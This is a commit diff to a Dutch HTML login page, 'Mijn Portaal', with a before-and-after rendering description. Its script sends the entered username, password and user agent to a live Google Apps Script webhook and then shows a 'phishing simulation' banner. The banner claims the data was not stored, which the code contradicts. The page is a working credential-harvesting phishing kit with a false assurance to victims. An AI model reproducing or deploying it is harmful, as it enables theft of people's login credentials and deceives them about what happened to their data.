

Before and after one commit to Gooske28/mijnportaal, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample123" into the empty fields and a click on the button "Inloggen". Shown: the whole page, without its empty margins (318-958 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,27 +2,46 @@
 <html lang="nl">
 <head>
   <meta charset="UTF-8">
-  <title>Login Portaal</title>
+  <title>Login Mijn Portaal</title>
   <style>
-    body { background-color: #111; color: #0f0; font-family: monospace; text-align: center; margin-top: 100px; }
-    input, button { padding: 10px; margin: 10px; background: #222; color: #0f0; border: none; }
+    body {
+      background-color: #111;
+      color: #0f0;
+      font-family: monospace;
+      text-align: center;
+      margin-top: 100px;
+    }
+    input, button {
+      padding: 10px;
+      margin: 10px;
+      background: #222;
+      color: #0f0;
+      border: none;
+    }
+    #result {
+      display: none;
+      margin-top: 30px;
+      color: red;
+    }
   </style>
 </head>
 <body>
-  <h2>Login bij Schoolportaal</h2>
+  <h2>Login bij Mijn Portaal</h2>
   <form id="loginForm">
     <input type="text" id="username" placeholder="Gebruikersnaam" required><br>
     <input type="password" id="password" placeholder="Wachtwoord" required><br>
     <button type="submit">Inloggen</button>
   </form>
 
-  <div id="result" style="display:none; margin-top: 20px;">
-    <h3 style="color:red;">⚠️ Phishing Simulatie ⚠️</h3>
-    <p>Je gegevens zijn niet echt opgeslagen op een server.<br>Dit was een test om je bewust te maken van online phishing.</p>
+  <div id="result">
+    <h3>⚠️ Phishing Simulatie ⚠️</h3>
+    <p>Je gegevens zijn niet echt opgeslagen op een server.<br>
+    Dit was een test om je bewust te maken van online phishing.<br>
+    Denk twee keer na voor je ergens je wachtwoord ingeeft.</p>
   </div>
 
   <script>
-    const webhookURL = "https://script.google.com/macros/s/AKfycbzHHDjulEcUAHwGyj2b87IdQttDnK_nbW-a8sdgRuGOcgAHvYm09RPDkQyPghcDA91D/exec"; // <-- plak jouw Apps Script URL hier
+    const webhookURL = "https://script.google.com/macros/s/AKfycbzHHDjulEcUAHwGyj2b87IdQttDnK_nbW-a8sdgRuGOcgAHvYm09RPDkQyPghcDA91D/exec";
 
     document.getElementById("loginForm").addEventListener("submit", function(e) {
       e.preventDefault();
@@ -33,8 +52,14 @@
 
       fetch(webhookURL, {
         method: "POST",
-        body: JSON.stringify({ username, password, userAgent }),
-        headers: { "Content-Type": "application/json" }
+        headers: {
+          "Content-Type": "application/json"
+        },
+        body: JSON.stringify({
+          username: username,
+          password: password,
+          userAgent: userAgent
+        })
       });
 
       document.getElementById("loginForm").style.display = "none";
```
